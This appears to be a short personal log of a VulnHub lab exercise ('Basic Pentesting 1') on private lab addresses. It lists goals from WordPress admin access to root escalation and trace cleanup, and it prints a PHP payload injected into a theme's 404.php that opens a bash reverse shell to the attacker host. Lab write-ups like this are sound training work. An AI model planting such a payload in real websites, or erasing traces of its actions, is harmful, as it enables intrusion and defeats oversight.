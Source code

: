 ## Day 002 – June 15, 2025

### Engagement Target
**VulnHub Box:** Basic Pentesting 1  
**Target IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  

---

### Goals
- [x] Regain WordPress admin access
- [x] Inject and trigger PHP reverse shell
- [x] Upgrade to TTY shell
- [x] Enumerate local users and system
- [x] Escalate privileges to root
- [x] Clean up artifacts and command traces

---

### 🧨 Initial Access

**Entry Vector:** WordPress Theme Editor → `404.php`  
**Injected Payload:**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTM5NjgwNzM2N119
-->